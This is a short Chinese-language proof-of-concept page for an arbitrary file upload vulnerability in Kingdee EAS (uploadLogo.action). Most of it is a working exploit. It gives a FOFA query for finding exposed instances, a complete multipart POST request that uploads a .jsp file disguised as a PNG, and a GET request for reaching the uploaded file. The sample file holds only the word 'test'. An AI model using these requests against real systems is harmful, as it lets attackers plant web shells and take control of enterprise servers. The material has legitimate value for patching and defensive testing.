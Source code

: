
## 金蝶OA-EAS系统 uploadLogo.action 任意文件上传漏洞

金蝶 EAS 及 EAS Cloud 是金蝶软件公司推出的一套企业级应用软件套件，旨在帮助企业实现全面的管理和业务流程优化。金蝶 EAS 及 EAS Cloud 在 uploadLogo.action 存在文件上传漏洞，攻击者可以利用文件上传漏洞执行恶意代码、写入后门、读取敏感文件，从而可能导致服务器受到攻击并被控制。

## fofa
```
app="Kingdee-EAS"
```

## poc
```
POST /plt_portal/setting/uploadLogo.action HTTP/1.1
Host: 
User-Agent: Mozilla/4.0 (Mozilla/4.0; MSIE 7.0; Windows NT 5.1; FDM; SV1; .NET CLR 3.0.04506.30)
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
X-Forwarded-For: 
Content-Length: 632
Content-Type: multipart/form-data; boundary=04844569c7ca7d21a3ca115dca477d62

--04844569c7ca7d21a3ca115dca477d62
Content-Disposition: form-data; name="chooseLanguage_top"; filename="chooseLanguage_top"

ch
--04844569c7ca7d21a3ca115dca477d62
Content-Disposition: form-data; name="dataCenter"; filename="dataCenter"

xx
--04844569c7ca7d21a3ca115dca477d62
Content-Disposition: form-data; name="insId"; filename="insId"


--04844569c7ca7d21a3ca115dca477d62
Content-Disposition: form-data; name="type"; filename="type"

top
--04844569c7ca7d21a3ca115dca477d62
Content-Disposition: form-data; name="upload"; filename="test.jsp"
Content-Type: image/png

test
--04844569c7ca7d21a3ca115dca477d62--
```
![3c4d1cec26f6b03e1876b02c2f7029d9](https://github.com/wy876/POC/assets/139549762/d7a2b831-852c-4488-bcd0-f9967d0e32a4)

## 上传文件路径
```

GET /portal/res/file/upload/xxx.jsp HTTP/1.1
Host: 
User-Agent: Mozilla/4.0 (Mozilla/4.0; MSIE 7.0; Windows NT 5.1; FDM; SV1; .NET CLR 3.0.04506.30)
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
X-Forwarded-For:
```
![47f8b3b0cc61c63d9a0d2d2b54a602dc](https://github.com/wy876/POC/assets/139549762/8a80fc29-9d8e-4622-a465-3c3c423f1e57)
